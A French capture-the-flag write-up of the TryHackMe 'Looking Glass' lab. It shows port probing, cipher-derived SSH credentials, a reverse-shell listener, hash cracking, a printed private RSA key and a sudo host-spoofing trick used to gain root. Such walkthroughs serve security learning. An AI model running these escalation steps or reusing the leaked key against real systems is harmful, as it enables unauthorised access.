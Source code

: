 # ROOM
https://tryhackme.com/r/room/lookingglass

Un writeup fait a la va-vite comme d'habitude, mais promis je les referais plus propre !
# Enumeration
## NMAP
```
Le scan nmap montre le port 22, et ensuite une range de port de 9000 a 13999. Donc beaucoup de port...
```
En essayant d'afficher une page web sur plusieurs port, je passe par BurpSuite pour aller plus vite.
La réponse est toujours la même: **SSH-2.0-dropbear**

Après recherche, dropbear est un service SSH pour le matériel avec peu de spec, c'est peut-être un IoT (Internet of Things).
Je test de me connecter en SSH, la réponse du serveur est :
```
Lower
```
ou
```
Higher
```
en fonction du port sur lequel je tente de me connecter.

Vu le nombre de port, je vais pas pouvoir tout test manuellement cela serai bien trop long, on va donc faire un petit script pour test a notre place:
```bash
for i in $(seq 12855 13999);
do
    echo "Test sur le port $i"
    ssh -o "HostKeyAlgorithms=+ssh-rsa" -o "StrictHostKeyChecking=no" 10.10.24.153 -p $i
done
```
Ici, j'ai mis une sequence de 12855 a 13999 car j'avais déjà test quelques ports et j'avais donc déjà la range qu'il me fallais pour trouver le juste millieu.

Le port 12869 me répond autre chose que Lower ou Higher!
## Le bon port
```
Test sur le port 12869
Warning: Permanently added '[10.10.24.153]:12869' (RSA) to the list of known hosts.
You've found the real service.
Solve the challenge to get access to the box
Jabberwocky

'Mdes mgplmmz, cvs alv lsmtsn aowil
Fqs ncix hrd rxtbmi bp bwl arul;
Elw bpmtc pgzt alv uvvordcet,
Egf bwl qffl vaewz ovxztiql.

'Fvphve ewl Jbfugzlvgb, ff woy!
Ioe kepu bwhx sbai, tst jlbal vppa grmjl!
Bplhrf xag Rjinlu imro, pud tlnp
Bwl jintmofh Iaohxtachxta!'

Oi tzdr hjw oqzehp jpvvd tc oaoh:
Eqvv amdx ale xpuxpqx hwt oi jhbkhe--
Hv rfwmgl wl fp moi Tfbaun xkgm,
Puh jmvsd lloimi bp bwvyxaa.

Eno pz io yyhqho xyhbkhe wl sushf,
Bwl Nruiirhdjk, xmmj mnlw fy mpaxt,
Jani pjqumpzgn xhcdbgi xag bjskvr dsoo,
Pud cykdttk ej ba gaxt!

Vnf, xpq! Wcl, xnh! Hrd ewyovka cvs alihbkh
Ewl vpvict qseux dine huidoxt-achgb!
Al peqi pt eitf, ick azmo mtd wlae
Lx ymca krebqpsxug cevm.

'Ick lrla xhzj zlbmg vpt Qesulvwzrr?
Cpqx vw bf eifz, qy mthmjwa dwn!
V jitinofh kaz! Gtntdvl! Ttspaj!'
Wl ciskvttk me apw jzn.

'Awbw utqasmx, tuh tst zljxaa bdcij
Wph gjgl aoh zkuqsi zg ale hpie;
Bpe oqbzc nxyi tst iosszqdtz,
Eew ale xdte semja dbxxkhfe.
Jdbr tivtmi pw sxd[...REDACTED...]td

Enter Secret:
```
C'est du vigenère, une fois décoder on retrouve le secret :
Secret :
```
be[...REDACTED...]ck
```
On peu donc entrer le secret, et il nous affiche un compte SSH:
Compte SSH:
```
jabberwock:Mostly[...REDACTED...]hecked
```
# Exploitation
1er flag
```
jabberwock@looking-glass:~$ cat user.txt 
}32a9119[...REDACTED...]d56{mht
```
Le flag est vu depuis un mirroir, suffit de le reverse pour avoir le flag.

# Post exploitation
## Privesc to tweedledee
Dans le dossier /home de jabberwock on retrouve un script, un flag et un poeme.
Le compte jabberwork peux exectuer **/sbin/reboot** en tant que root sans passwd.

En regardant dans les taches cron, on vois que **tweedledum** execute le script.
Je modifie le script dans le home de **jabberwork** puis execute le sudo **/sbin/reboot**, sur ma machine, j'ouvre un listener
```
nc -lnvp 4444
```
J'ai revshell en tant que tweedledum.

## Privesc to tweedledum
En regardant les droits sur sudo avec **sudo -l** on vois qu'on peux executer **/bin/bash** en tant que **tweedledum**
```
sudo -u tweedledum /bin/bash
```
Nous voila en tant que tweedledum

## Privesc to humptydumpty
On retrouve ces hash dans un fichier :
```
dcfff5eb40423f055a[...REDACTED...]9816868f5766b4088b9e9906961b94
7692c3ad3540bb803c[...REDACTED...]123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb[...REDACTED...]9c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdc[...REDACTED...]c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6[...REDACTED...]633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5[...REDACTED...]b5e99fd62446677600d7cacef544d0
5e884898da28047151[...REDACTED...]603d0d6aabbdd62a11ef721d1542d8
746865207061737377[...REDACTED...]797877767574737271706f6e6d6c6b
```
Une fois décoder via crackstation, ils fonctionnent tous sauf le dernier.
Je passe donc via cyberchef et je trouve le password :
```
the password is zy[...REDACTED...]lk
```
C'est le mot de passe du compte de humptydumpty

## Privesc to Alice !
On ne peux rien voir ni écrire dans le dossier de alice, on a un accès refusé.

Je test de lire le fichier .bashrc, rien ne s'affiche, pour le coup c'est une bonne chose car je ne suis pas bloquer pour lire.
Je test donc de lire sa clé SSH et cela fonctionne :

```
humptydumpty@looking-glass:/home$ cat /home/alice/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEAxmPncAXisNjbU2xizft4aYPqmfXm1735FPlGf4j9ExZhlmmD
NIRchPaFUqJXQZi5ryQH6YxZP5IIJXENK+a4WoRDyPoyGK/63rXTn/IWWKQka9tQ
2xrdnyxdwbtiKP1L4bq/4vU3OUcA+aYHxqhyq39arpeceHVit+jVPriHiCA73k7g
HCgpkwWczNa5MMGo+1Cg4ifzffv4uhPkxBLLl3f4rBf84RmuKEEy6bYZ+/WOEgHl
fks5ngFniW7x2R3vyq7xyDrwiXEjfW4yYe+kLiGZyyk1ia7HGhNKpIRufPdJdT+r
NGrjYFLjhzeWYBmHx7JkhkEUFIVx6ZV1y+gihQIDAQABAoIBAQDAhIA5kCyMqtQj
X2F+O9J8qjvFzf+GSl7lAIVuC5Ryqlxm5tsg4nUZvlRgfRMpn7hJAjD/bWfKLb7j
/pHmkU1C4WkaJdjpZhS[...REDACTED...]z7ds4f78z74xmlR+RHCb40pZjBgr5
8bjJlQcp6pplBRCF/OsG5ugpCiJsS6uA6CWWXe6WC7r7V94r5wzzJpWBAoGBAM1R
aCg1/2UxIOqxtAfQ+WDxqQQuq3szvrhep22McIUe83dh+hUibaPqR1nYy1sAAhgy
wJohLchlq4E1LhUmTZZquBwviU73fNRbID5pfn4LKL6/yiF/GWd+Zv+t9n9DDWKi
WgT9aG7N+TP/yimYniR2ePu/xKIjWX/uSs3rSLcFAoGBAOxvcFpM5Pz6rD8jZrzs
SFexY9P5nOpn4ppyICFRMhIfDYD7TeXeFDY/yOnhDyrJXcbOARwjivhDLdxhzFkx
X1DPyif292GTsMC4xL0BhLkziIY6bGI9efC4rXvFcvrUqDyc9ZzoYflykL9KaCGr
+zlCOtJ8FQZKjDhOGnDkUPMBAoGBAMrVaXiQH8bwSfyRobE3GaZUFw0yreYAsKGj
oPPwkhhxA0UlXdITOQ1+HQ79xagY0fjl6rBZpska59u1ldj/BhdbRpdRvuxsQr3n
aGs//N64V4BaKG3/CjHcBhUA30vKCicvDI9xaQJOKardP/Ln+xM6lzrdsHwdQAXK
e8wCbMuhAoGBAOKy5OnaHwB8PcFcX68srFLX4W20NN6cFp12cU2QJy2MLGoFYBpa
dLnK/rW4O0JxgqIV69MjDsfRn1gZNhTTAyNnRMH1U7kUfPUB2ZXCmnCGLhAGEbY9
k6ywCnCtTz2/sNEgNcx9/iZW+yVEm/4s9eonVimF+u19HJFOPJsAYxx0
-----END RSA PRIVATE KEY-----

```
On peu se connecter en SSH en tant que Alice

## Privesc to root
Via linpeas, je trouve que le fichier **/etc/sudoers.d/alice** est lisible
```
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```
le host est aussi en mirroir, **ssalg-gnikool** au lieux de **looking-glass**
J'essaye de le modifier mais je n'ai pas les droits.

en regardant le man de sudo, on peux définir un host avec le paramètre **-h**
```
-h host, --host=host
               Run  the  command on the specified host if the security policy plugin supports remote commands. The sudoers plugin does not currently support run‐
               ning remote commands. This may also be used in conjunction with the -l option to list a user's privileges for the remote host.
```
Je tente donc:
```
alice@looking-glass:~$ sudo -h ssalg-gnikool /bin/bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:~# id
uid=0(root) gid=0(root) groups=0(root)
```
Me voila root !
```
root@looking-glass:~# cat /root/root.txt 
}f3dae6[...REDACTED...]f6b7332cb{mht
```

# Bonus 
Pour lire les flags 'mirrored', on peu le faire avec python:

```python
flag = "}00000000000000000000000000000000{mht"
print(flag[::-1])
```
